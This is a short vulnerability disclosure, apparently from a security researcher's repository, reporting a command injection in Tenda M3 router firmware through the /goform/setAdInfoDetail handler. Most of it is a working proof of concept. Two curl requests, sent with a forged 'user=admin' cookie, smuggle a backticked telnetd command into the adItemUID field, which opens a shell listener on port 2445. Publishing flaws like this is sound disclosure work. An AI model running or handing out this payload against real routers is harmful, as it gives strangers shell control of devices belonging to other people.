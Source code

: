 # Tenda M3 Command Injection

**Vender** ：Tenda

**Firmware version**:V1.0.0.12(4856)

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

An issue was discovered in Tenda M3 1.10 V1.0.0.12(4856) devices. An HTTP request parameter is used in command string construction within the handler function of the /goform/setAdInfoDetail route. This could lead to Command Injection via Shell Metacharacters.

![1](./1.jpg)



When we send packets, the router will be shell



```
curl -i -X POST http://192.168.10.1/goform/setWorkmode  -d workmode='master'   --cookie "user=admin"
```



```
curl -i -X POST http://192.168.10.1/goform/setAdInfoDetail -d adItemUID='aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa`telnetd -p 2445 -l /bin/sh`' -d weixinName='save'   -d action='edit' --cookie "user=admin;devUid=111:222;"
```



![2](./2.jpg)

![poc](./poc.jpg)

